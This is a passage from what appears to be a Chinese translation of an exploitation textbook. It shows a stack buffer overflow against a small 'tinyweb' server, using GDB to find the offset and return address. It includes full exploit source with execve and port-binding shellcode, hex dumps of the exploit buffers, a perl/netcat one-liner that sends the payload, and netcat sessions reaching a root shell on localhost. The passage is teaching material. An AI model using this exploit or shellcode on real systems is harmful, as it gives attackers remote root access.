40            fatal("listening on socket");
41
42         while(1) {   // Accept loop
43            sin_size = size of(struct sockaddr_in);
44            `new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);`
45            if(new_sockfd == -1)
46               fatal("accepting connection");
47
48            handle_connection(new_sockfd, &client_addr);
(gdb) list handle_connection
53      /* This function handles the connection on the passed socket from the
54       * passed client address.  The connection is processed as a web request
55       * and this function replies over the connected socket.  Finally, the 
56       * passed socket is closed at the end of the function.
57       */
58      void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr) {
59         unsigned char *ptr, request[500], resource[500];
60         int fd, length;
61
62         length = recv_line(sockfd, request);
(gdb) break 62
Breakpoint 1 at 0x8048d02: file tinyweb.c, line 62.
(gdb) cont 
Continuing. 
```

连接到正在运行的进程后，堆栈跟踪显示程序当前在 `main()` 中，等待连接。在 62 行的第一次 `recv_line()` 调用处设置断点 () 后，程序被允许继续执行。此时，必须通过在另一个终端中使用 `wget` 或浏览器发起网络请求来推进程序的执行。然后 `handle_connection()` 中的断点将被触发。

```
Breakpoint 2, handle_connection (sockfd=4, client_addr_ptr=0xbffff810) at tinyweb.c:62
62         length = recv_line(sockfd, request);
(gdb) x/x request 
0xbffff5c0:     0x00000000
(gdb) bt
#0  handle_connection (sockfd=4, client_addr_ptr=0xbffff810) at tinyweb.c:62
#1  0x08048cf6 in main () at tinyweb.c:48
(gdb) x/16xw request+500
0xbffff7b4:     0xb7fd5ff4      0xb8000ce0      0x00000000      0xbffff848
0xbffff7c4:     0xb7ff9300      0xb7fd5ff4      0xbffff7e0      0xb7f691c0
0xbffff7d4:     0xb7fd5ff4      0xbffff848      0x08048cf6      0x00000004
0xbffff7e4:     0xbffff810      0xbffff80c      0xbffff834      0x00000004
(gdb) x/x 0xbffff7d4+8
0xbffff7dc:     0x08048cf6
(gdb) p 0xbffff7dc - 0xbffff5c0
$1 = 540
(gdb) p /x 0xbffff5c0 + 200
$2 = 0xbffff688
(gdb) quit
The program is running.  Quit anyway (and detach it)? (y or n) y
Detaching from program: , process 13019 
reader@hacking:~/booksrc $ 
```

在断点处，请求缓冲区从 `0xbfffff5c0` 开始。`bt` 命令的堆栈跟踪显示从 `handle_connection()` 返回的地址是 `0x08048cf6`。由于我们知道局部变量通常在堆栈上的布局，我们知道请求缓冲区位于帧的末尾附近。这意味着存储的返回地址应该在堆栈的末尾附近这个 500 字节缓冲区的某个位置。既然我们已经知道了要查找的大致区域，快速检查显示存储的返回地址在 `0xbffff7dc` ()。一点数学计算表明存储的返回地址距离请求缓冲区的开始有 540 字节。然而，缓冲区开头附近的一些字节可能会被函数的其余部分破坏。记住，我们只有在函数返回后才能控制程序。为了解决这个问题，最好只避免缓冲区的开头。跳过前 200 字节应该是安全的，同时为剩余的 300 字节留出足够的空间用于 shellcode。这意味着 `0xbffff688` 是目标返回地址。

## 几乎只有手榴弹才有效

以下针对 tinyweb 程序的漏洞利用使用了 GDB 计算出的偏移量和返回地址覆盖值。它用空字节填充漏洞缓冲区，因此写入的内容将自动以 null 终止。然后它用 NOP 指令填充前 540 个字节。这建立了 NOP 滑梯并填充缓冲区直到返回地址覆盖位置。然后整个字符串以`'\r\n'`行终止符结束。

### tinyweb_exploit.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>

#include "hacking.h"
#include "hacking-network.h"

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";  // Standard shellcode

#define OFFSET 540
#define RETADDR 0xbffff688

int main(int argc, char *argv[]) {
   int sockfd, buflen;
   struct hostent *host_info;
   struct sockaddr_in target_addr;
   unsigned char buffer[600];

   if(argc < 2) {
      printf("Usage: %s <hostname>\n", argv[0]);
      exit(1);
   }

   if((host_info = gethostbyname(argv[1])) == NULL)
      fatal("looking up hostname");

   if ((sockfd = socket(PF_INET, SOCK_STREAM, 0)) == -1)
      fatal("in socket");

   target_addr.sin_family = AF_INET;
   target_addr.sin_port = htons(80);
   target_addr.sin_addr = *((struct in_addr *)host_info->h_addr);
   memset(&(target_addr.sin_zero), '\0', 8); // Zero the rest of the struct.

   if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(struct sockaddr)) == -1)
      fatal("connecting to target server");

   bzero(buffer, 600);                      // Zero out the buffer.
   memset(buffer, '\x90', OFFSET);          // Build a NOP sled.
   *((u_int *)(buffer + OFFSET)) = RETADDR; // Put the return address in
   memcpy(buffer+300, shellcode, strlen(shellcode)); // shellcode.
   strcat(buffer, "\r\n");                  // Terminate the string.
   printf("Exploit buffer:\n");
   dump(buffer, strlen(buffer));  // Show the exploit buffer.
   send_string(sockfd, buffer);   // Send exploit buffer as an HTTP request.

   exit(0);
}
```

当这个程序编译后，它可以远程利用运行 tinyweb 程序的宿主，欺骗它们运行 shellcode。漏洞利用还会在发送之前输出漏洞缓冲区的字节。在下面的输出中，tinyweb 程序在不同的终端中运行，漏洞利用被测试于它。以下是攻击者终端的输出：

```
reader@hacking:~/booksrc $ gcc tinyweb_exploit.c 
reader@hacking:~/booksrc $ ./a.out 127.0.0.1
Exploit buffer:
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 31 c0 31 db | ............1.1.
31 c9 99 b0 a4 cd 80 6a 0b 58 51 68 2f 2f 73 68 | 1......j.XQh//sh
68 2f 62 69 6e 89 e3 51 89 e2 53 89 e1 cd 80 90 | h/bin..Q..S.....
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 88 f6 ff bf | ................
0d 0a                                           | .. 
reader@hacking:~/booksrc $
```

回到运行 tinyweb 程序的终端，输出显示漏洞缓冲区已被接收并且 shellcode 被执行。这将提供一个 rootshell，但仅限于运行服务器的控制台。不幸的是，我们不在控制台，所以这对我们没有任何帮助。在服务器控制台上，我们看到以下内容：

```
reader@hacking:~/booksrc $ ./tinyweb
Accepting web requests on port 80
Got request from 127.0.0.1:53908 "GET / HTTP/1.1"
        Opening './webroot/index.html'   200 OK
Got request from 127.0.0.1:40668 "GET /image.jpg HTTP/1.1"
        Opening './webroot/image.jpg'    200 OK
Got request from 127.0.0.1:58504 
"␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣1␣ 1␣ 1␣␣␣  j

                                         XQh//shh/bin␣␣S ␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣"
 NOT HTTP! 
sh-3.2#
```

漏洞确实存在，但在这个情况下 shellcode 并没有做我们想要的事情。由于我们不在控制台，shellcode 只是一个自包含的程序，设计用来接管另一个程序以打开 shell。一旦控制了程序的执行指针，注入的 shellcode 就可以做任何事情。有各种不同类型的 shellcode 可以在不同情况下（或有效载荷）中使用。即使不是所有的 shellcode 实际上都会启动一个 shell，但它仍然通常被称为 shellcode。

## 端口绑定 Shellcode

当利用远程程序时，在本地启动一个 shell 是没有意义的。端口绑定 shellcode 会在特定端口上监听 TCP 连接并远程提供 shell。假设你已经准备好了端口绑定 shellcode，使用它只需替换掉漏洞中定义的 shellcode 字节。端口绑定 shellcode 包含在将绑定到端口 31337 的 LiveCD 中。下面的输出显示了这些 shellcode 字节。

```
reader@hacking:~/booksrc $ wc -c portbinding_shellcode
92 portbinding_shellcode
reader@hacking:~/booksrc $ hexdump -C portbinding_shellcode
00000000  6a 66 58 99 31 db 43 52  6a 01 6a 02 89 e1 cd 80  |jfX.1.CRj.j.....|
00000010  96 6a 66 58 43 52 66 68  7a 69 66 53 89 e1 6a 10  |.jfXCRfhzifS..j.|
00000020  51 56 89 e1 cd 80 b0 66  43 43 53 56 89 e1 cd 80  |QV.....fCCSV....|
00000030  b0 66 43 52 52 56 89 e1  cd 80 93 6a 02 59 b0 3f  |.fCRRV.....j.Y.?|
00000040  cd 80 49 79 f9 b0 0b 52  68 2f 2f 73 68 68 2f 62  |..Iy...Rh//shh/b|
00000050  69 6e 89 e3 52 89 e2 53  89 e1 cd 80              |in..R..S....|
0000005c
reader@hacking:~/booksrc $ od -tx1 portbinding_shellcode | cut -c8-80 | sed -e 's/ /\\x/g'
\x6a\x66\x58\x99\x31\xdb\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80
\x96\x6a\x66\x58\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10
\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x53\x56\x89\xe1\xcd\x80
\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f
\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62
\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80

reader@hacking:~/booksrc $ 
```

经过一些快速格式化后，这些字节被交换到 tinyweb_exploit.c 程序的 shellcode 字节中，从而得到 tinyweb_exploit2.c。下面的新 shellcode 行显示如下。

### New Line from tinyweb_exploit2.c

```
char shellcode[]=
"\x6a\x66\x58\x99\x31\xdb\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80"
"\x96\x6a\x66\x58\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\xcd\x80\xb0\x66\x43\x43\x53\x56\x89\xe1\xcd\x80"
"\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f"
"\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62"
"\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";
// Port-binding shellcode on port 31337
```

当这个漏洞利用编译并运行在运行 tinyweb 服务器的宿主上时，shellcode 会在端口 31337 上监听 TCP 连接。在下面的输出中，使用了一个名为 nc 的程序来连接到 shell。这个程序是 netcat（简称*nc*），它就像那个 cat 程序，但通过网络工作。我们不能使用 telnet 来连接，因为它会自动以`'\r\n'`终止所有输出行。下面的输出显示了漏洞利用的结果。传递给 netcat 的`-vv`命令行选项只是为了使其更详细。

```
reader@hacking:~/booksrc $ gcc tinyweb_exploit2.c 
reader@hacking:~/booksrc $ ./a.out 127.0.0.1
Exploit buffer:
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 6a 66 58 99 | ............jfX.
31 db 43 52 6a 01 6a 02 89 e1 cd 80 96 6a 66 58 | 1.CRj.j......jfX
43 52 66 68 7a 69 66 53 89 e1 6a 10 51 56 89 e1 | CRfhzifS..j.QV..
cd 80 b0 66 43 43 53 56 89 e1 cd 80 b0 66 43 52 | ...fCCSV.....fCR
52 56 89 e1 cd 80 93 6a 02 59 b0 3f cd 80 49 79 | RV.....j.Y.?..Iy
f9 b0 0b 52 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 | ...Rh//shh/bin..
52 89 e2 53 89 e1 cd 80 90 90 90 90 90 90 90 90 | R..S............
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 | ................
90 90 90 90 90 90 90 90 90 90 90 90 88 f6 ff bf | ................
0d 0a                                           | ..
reader@hacking:~/booksrc $ nc -vv 127.0.0.1 31337
localhost [127.0.0.1] 31337 (?) open
whoami
root
ls -l /etc/passwd 
-rw-r--r-- 1 root root 1545 Sep  9 16:24 /etc/passwd
```

即使远程 shell 不会显示提示符，它仍然接受命令并通过网络返回输出。

类似于 netcat 这样的程序可以用于许多其他事情。它被设计成像控制台程序一样工作，允许标准输入和输出通过管道和重定向。使用 netcat 和文件中的端口绑定 shellcode，相同的攻击可以在命令行上执行。

```
reader@hacking:~/booksrc $ wc -c portbinding_shellcode
92 portbinding_shellcode
reader@hacking:~/booksrc $ echo $((540+4 - 300 - 92))
152
reader@hacking:~/booksrc $ echo $((152 / 4))
38
reader@hacking:~/booksrc $ (perl -e 'print "\x90"x300';
> cat portbinding_shellcode 
> perl -e 'print "\x88\xf6\xff\xbf"x38 . \r\n"')

"␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣ jfX␣1␣CRj j ␣␣ ␣␣jfXC
RfhzifS␣␣j QV␣␣ ␣fCCSV␣␣ ␣fCRRV␣␣ ␣j Y␣? Iy␣␣
                                            Rh//shh/bin␣␣R␣␣S␣␣ ␣␣␣␣␣␣␣␣
"␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
"␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
reader@hacking:~/booksrc $ (perl -e 'print "\x90"x300'; cat portbinding_shellcode; 
perl -e 'print "\x88\xf6\xff\xbf"x38 . "\r\n"') | nc -v -w1 127.0.0.1 80
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ nc -v 127.0.0.1 31337
localhost [127.0.0.1] 31337 (?) open
whoami 
root
```

在上面的输出中，首先显示了端口绑定 shellcode 的长度为 92 字节。返回地址位于缓冲区开始处的 540 字节处，因此，使用 300 字节的 NOP sled 和 92 字节的 shellcode，到返回地址覆盖处有 152 字节。这意味着如果目标返回地址在缓冲区末尾重复 38 次，最后一个应该完成覆盖。最后，缓冲区以`'\r\n'`结束。构建缓冲区的命令用括号分组，以便将缓冲区管道输入到 netcat。netcat 连接到 tinyweb 程序并发送缓冲区。shellcode 运行后，需要通过按 CTRL-C 来退出 netcat，因为原始的套接字连接仍然打开。然后，再次使用 netcat 连接到绑定在端口 31337 上的 shell。
